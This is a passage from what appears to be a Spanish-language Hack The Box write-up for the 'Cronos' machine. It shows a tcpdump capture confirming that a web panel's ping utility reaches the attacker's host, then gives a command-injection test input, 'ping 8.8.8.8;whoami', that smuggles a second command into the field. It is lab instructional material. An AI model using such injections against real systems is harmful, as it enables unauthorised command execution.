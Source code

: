![""](/assets/images/htb-cronos/cronos-hash.png)

Contamos con credenciales de acceso, así que accedemos al panel y tenemos una utilidad que nos permite ejecutar un `traceroute` y un `ping`; como es posible que dicho comando se ejecute a nivel de sistema, primero vamos a probar el `ping` si lo recibimos en nuestra máquina.

![""](/assets/images/htb-cronos/cronos-web4.png)

```bash
❯ tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
21:48:18.291432 IP cronos.htb > 10.10.14.27: ICMP echo request, id 7587, seq 1, length 64
21:48:18.291575 IP 10.10.14.27 > cronos.htb: ICMP echo reply, id 7587, seq 1, length 64
^C
2 packets captured
2 packets received by filter
0 packets dropped by kernel
```

Recibimos la traza ICMP, por lo que podríamos pensar que tenemos la capacidad de ejecutar ciertos comandos aprovechando dicha herramienta.

- `ping 8.8.8.8;whoami`
